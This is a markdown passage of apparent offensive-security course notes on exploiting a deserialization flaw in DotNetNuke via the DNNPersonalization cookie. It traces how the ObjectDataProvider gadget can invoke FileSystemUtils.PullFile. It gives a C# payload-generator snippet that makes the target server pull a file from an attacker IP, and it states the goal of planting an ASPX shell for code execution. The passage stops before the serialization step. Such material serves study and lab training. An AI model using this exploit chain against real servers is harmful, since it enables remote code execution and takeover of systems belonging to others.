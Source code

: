 ## Payload Options
As we are dealing with a deserialization vulnerability, our goal is to find an object that can execute code that we can use for our purposes and that we can properly deserialize.

**FileSystemUtils PullFile Method**
The DotNetNuke.dll assembly contains a class called _FileSystemUtils_. This class implements a method called _PullFile_.
Taking a look at the method:

![](../../03.%20Screenshots/t4-ss24.png)

This function could be very useful from an attacker perspective as it allows to download an arbitrary file from a given URL to the target server.
This means that if we can trigger this method using the _DNNPersonalization_ cookie, we could theoretically upload an ASPX shell and gain code execution on our target server.

However, this will not work. That's because of the limitation of the XmlSerializer class.
Although this class is within the DNN application domain and would therefore be known to the serializer at runtime, _XmlSerializer_ can _not_ serialize class methods.
It can only serialize public properties and fields.
Unfortunately, the _FileSystemUtils_ class does not expose any public properties that we could _set_ or _get_ in order to trigger the invocation of the _PullFile_ method.

**ObjectDataProvider Class**
The _ObjectDataProvider_ gadget is arguably the most versatile.
The class is used when we want to wrap another object into an _ObjectDataProvider_ instance and use it as a binding source.
(A binding source is simply an object that provides the programmer with relevant data.)
The ObjectDataProvider class allows us to wrap an arbitrary object and use the _MethodName_ property to call a method from a wrapped object, along with the _MethodParameters_ property to pass any necessary parameters.
The _ObjectDataProvider_ class also does not violate any limitations imposed by XmlSerializer.

The _ObjectDataProvider_ is defined and implemented in the System.Windows.Data namespace, which is located in the PresentationFramework.dll .NET executable file.
Taking a look at the MethodName property:

![](../../03.%20Screenshots/t4-ss25.png)

Here, the MethodName property is set, the private \_methodName variable is set and ultimately the base.Refresh function call takes place.

We can trace the function:

![](../../03.%20Screenshots/t4-ss26.png)

Where we notice another function call, called BeginQuery. Tracing the function call to BeginQuery, we come at a dead-end.
This is because ObjectDataProvider class inherits from DataSourceProvider class, which is where we land.
However, navigating to the BeginQuery function within the ObjectDataProvider class that overrides the inherited function, we see:

![](../../03.%20Screenshots/t4-ss27.png)

We see another call to the QueryWorker method in the end.
Tracing this method:

![](../../t4-ss28.png)

We arrive at the function call to InvokeMethodOnInstance.
This is exactly the point at which the target method in the wrapped object is invoked.

## Example Use
We need to create a final serialized payload generator and thus we'll start with a basic project that uses existing DNN code.
(Note: we need to set dotnetnuke.dll and PresentationFramework.dll as references)

Our code will look like so:

```c#
using System;
using System.IO;
using System.Xml.Serialization;
using DotNetNuke.Common.Utilities;
using System.Windows.Data;

namespace ODPSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
            myODP.ObjectInstance = new FileSystemUtils();
            myODP.MethodName = "PullFile";
            myODP.MethodParameters.Add("http://192.168.119.184/myODPTest.txt");
            myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");
            Console.WriteLine("Done!");
        }
    }
}
```

The code does the following:
1. Sets all appropriate using directives.
2. Creates a ObjectDataProvider instance
3. Instructs it to wrap the DNN FileSystemUtils object.
4. Instructs it to call the PullFile method.
5. Passes 2 arguments being the file on the attacker machine and the local location for the file to be downloaded.

After compiling and running the project, we see that our file was pulled from our attacker machine:

![](../../t4-ss29.png)

And is stored inside the remote server in our given folder:

![](../../t4-ss30.png)

## Serializing Our Payload

We already know how to use the XmlSerializer class to serialize our object.
Based on our earlier analysis we know that the DNNPersonalization cookie has to be in a specific format in order to reach the deserialization function call.
Specifically, it has to contain the "profile" node along with the "item" tag, which contains a "type" attribute describing the enclosed object.

Rather than trying to reconstruct this structure manually, we can re-use the DNN function that creates that cookie value in the first place. This function is called _SerializeDictionary_ and is located in the _DotNetNuke.Common.Utilities.XmlUtils_ namespace:

